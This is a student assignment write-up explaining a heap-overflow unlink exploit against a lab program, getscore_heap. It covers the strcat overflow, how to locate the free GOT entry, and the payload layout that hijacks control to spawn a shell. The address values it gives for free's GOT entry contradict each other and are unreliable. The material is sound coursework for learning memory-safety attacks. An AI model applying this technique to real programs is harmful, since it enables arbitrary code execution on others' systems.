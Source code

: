 # Assignment 3 Documentation
### Written By: Chuck Zumbaugh
### Collaborators: None

## Running the exploit
There are two files included, a `build_exploit.c` file that contains the source code and a compiled binary, `build_exploit`. When run, the compiled binary will generate the two inputs required by `getscore_heap` and spawn a new shell that contains the shell variables `NAME` and `SSN`. To run the exploit, simply build the shell variables and pass them to the program as follows:
```sh
$ ./build_exploit                   # Builds the shell variables NAME and SSN
$ ./getscore_heap $NAME $SSN        # Run the program with the generated inputs
```

The exploit builder can be compiled from the source if needed using GCC:
```sh
gcc -o build_exploit build_exploit.c
```

## Overview and objective
The objective is to exploit a buffer overflow vulnerability in the `getscore_heap` program and get the program to return a shell. This program accepts two pieces of user input, a name and a SSN, that are then used to look up data in a `score.txt` file and return the matching data. To do this, it allocates 3 character buffers on the heap: `matching_pattern`, `score`, and `line` (in that order). While the size of `score` and `line` are fixed (10 and 120 bytes, respectively), the size of `matching_pattern` is the length of the `name` argument + 17. The `matching_pattern` is used to store the text pattern to search for, and is built as follows:
```c
...

// The length of the buffer is determined by the name argument
if ((matching_pattern = (char *) malloc(strlen(name) + 17)) == NULL) {
    printf("Failed to allocate memory.\n");
    exit(-1);
}

...

strcpy(matching_pattern, name); 
strcat(matching_pattern, ":"); // strlen(name) + 1 bytes used
strcat(matching_pattern, ssn); // We can cause an overflow here by passing > 16 bytes
```

Clearly, there is a vulnerability in that the buffer size is determined solely by name and there is no check that `ssn` will fit in the remaining 16 bytes. After constructing `matching_pattern`, the score file is scanned anc checked against the input as follows:
```c
// line is mutated with each iteration
while (fgets(line, 120, scorefile) != NULL) {
    if (match_point = str_prefix(matching_pattern, line)) {
        ... // Code not reached assuming str_prefix returns NULL
    }
}
```

After reading through the file the program reaches the end where these variables are freed as follows:
```c
free(matching_pattern);
free(score);
free(line);
```

Clearly we can exploit this using an unlink based attack, but we need to ensure the payload is not modified by the program prior to `free()` being called. When there are no matches in the file, which we can safely assume if we are passing an exploit, the `matching_pattern` and `score` data are not changed. However, `line` is mutated during the `while` loop above so the entire payload must be contained within `matching_pattern` and `score`. This is not a problem since we can make `matching_payload` whatever size we need through the `name` argument and use `score` to setup a fake heap structure. The overall strategy will be to use the `name` input to contain the NOP sled and shellcode and use the `SSN` input to fill the remaining portion of the buffer, and overwrite the `score` buffer to create a fake heap structure that will cause an unlink to occur when `free(matching_pattern)` is called.

## Finding the relevant addresses
### Address of `free`
Since `malloc` and `free` are part of the C standard library, the assembly instructions will contain stubs to these functions that will be resolved at runtime by the dynamic linker. Specifically, this stub is the address of the entry in the PLT, which will either return the address from the GOT if it has been previously used, or call the resolver to retrieve the address. For this exploit, we are interested in modifying the address of `free` in the GOT table to point to our payload. This location of GOT entries can be retrieved using
```sh
$ objdump -R getscore_heap
``` 
Which shows the following for `free`:
```
...
08049d30 R_386_JUMP_SLOT free
```

Thus, the address we need to use in the forward pointer is `0x08048D24`.

### Address of `matching_pattern`
The `getscore_heap` program will print out the address of `matching_pattern`, `score`, and `line` when run, so we can get the address of `matching_pattern` by simply running it with junk input:
```sh
./getscore_heap aaa aaa

Address of matching_pattern : 0x8049ec8
```

Most programs won't do this though, and in such cases we can use GDB to find the address of variables. To do this, we can set a breakpoint at some point in the program after `matching_pattern` has been allocated. By running `x &matching_pattern`, we will get the location on the stack that contains the address of `matching_pattern`.

## Determining the length of the buffer
Since we have access to the source code, it is quite trivial to determine the length of the buffer. The program allocates `strlen(name) + 17` bytes, so we need to know the length of the input. As previously mentioned, the `name` argument must contain the exploit prefix, the `jmp 0x6` instruction, the overwrite (what will be replaced by the GOT address), and the shellcode. The below table contains the size of each component.

|  Component      | Size (bytes)       |
| :-------------: | :----------------: |
| Prefix          | 8                  |
| NOP JMP         | 8                  |
| Overwrite       | 4                  |
| Shellcode       | 45                 |
| **Total**       | **65**             |

Since chunks are allocated in increments of 8 bytes, the chunk will have a total of 88 bytes (`ceil((65 + 17) / 8) * 8`), including 8 bytes of metadata at the beginning. Then we need a total of `88 - 8 - 65 = 15` bytes of additional input to fill the buffer. The character `:` is concatenated, so we need 14 bytes at the beginning of `SSN` to fill the buffer. 

## Building the exploit
The name argument is generated as follows, where `+` indicates concatenation:
```
NAME = Prefix + NOP_JMP + Overwrite + Shellcode
```

As mentioned in the previous section, we need an additional 14 bytes to fill the buffer, and for that we shall use NOPs. The size of the next chunk is 16 bytes (10 declared, but allocated in blocks of 8), so we need to overwrite the initial 8 bytes of metadata with `0xFFFFFFFF`, place the GOT address - 12, followed by the address of `jmp 0x6` - 6. Thus the `SSN` input is composed as follows:

| Component | Data |
| :------:  | ---- |
| NOP_FILL | `\x90` * 14 |
| SIZE    | `\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF` |
| GOT_ADDR | `\x24\x9d\x04\x08` |
| RET_ADDR | `\xd0\x93\x04\x08` |

```
SSN = NOP_FILL + SIZE + GOT_ADDR + RET_ADDR
```